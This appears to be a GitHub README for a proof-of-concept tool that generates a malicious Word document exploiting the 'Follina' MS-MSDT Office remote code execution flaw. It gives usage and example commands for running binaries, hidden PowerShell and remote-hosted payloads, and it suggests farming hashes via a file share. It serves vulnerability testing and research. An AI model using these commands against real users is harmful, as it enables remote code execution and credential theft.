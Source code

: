 # 'Follina' MS-MSDT n-day Microsoft Office RCE

Quick POC to replicate the 'Follina' Office RCE vulnerability for local testing purposes. Running the script will generate the `clickme.docx` payload file in your current working directory, and start a web server with the payload file (`www/exploit.html`). The payload and web server parameters are configurable (see examples).

> ⚠ DO NOT USE IN PRODUCTION LEST YOU BE REGARDED A DUMMY

## Usage:

```
python .\follina.py -h
usage: follina.py [-h] -m {command,binary} [-b BINARY] [-c COMMAND] [-u URL] [-H HOST] [-p PORT]

options:
  -h, --help            show this help message and exit

Required Arguments:
  -m {command,binary}, --mode {command,binary}
                        Execution mode, can be "binary" to load a (remote) binary, or "command" to run an encoded PS command

Binary Execution Arguments:
  -b BINARY, --binary BINARY

Command Execution Arguments:
  -c COMMAND, --command COMMAND
                        The encoded command to execute in "command" mode

Optional Arguments:
  -u URL, --url URL     The hostname or IP address where the generated document should retrieve your payload, defaults to "localhost"
  -H HOST, --host HOST  The interface for the web server to listen on, defaults to all interfaces (0.0.0.0)
  -p PORT, --port PORT  The port to run the HTTP server on, defaults to 80
```

## Examples:

```
# Execute a local binary
python .\follina.py -m binary -b \windows\system32\calc.exe

# On linux you may have to escape backslashes
python .\follina.py -m binary -b \\windows\\system32\\calc.exe

# Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -m binary -b \\localhost\c$\windows\system32\calc.exe

# Execute an arbitrary powershell command
python .\follina.py -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

# Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -m binary -b \windows\system32\calc.exe -u 1.2.3.4

# Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
```

## Cool peeps

Thanks to [Kevin Beaumont](https://twitter.com/GossiTheDog) for [his original analysis](https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e) of the issue, [@KevTheHermit](https://twitter.com/KevTheHermit) for sharing their poc, and [John Hammond](https://twitter.com/_JohnHammond) for their further work on analysing payload requirements. Additional thanks to [@mkolsek](https://twitter.com/mkolsek) for the template [supporting Office 2019](https://twitter.com/mkolsek/status/1531217733546823681), and [@theluemmel](https://twitter.com/theluemmel) for sharing their version of the payload with me.
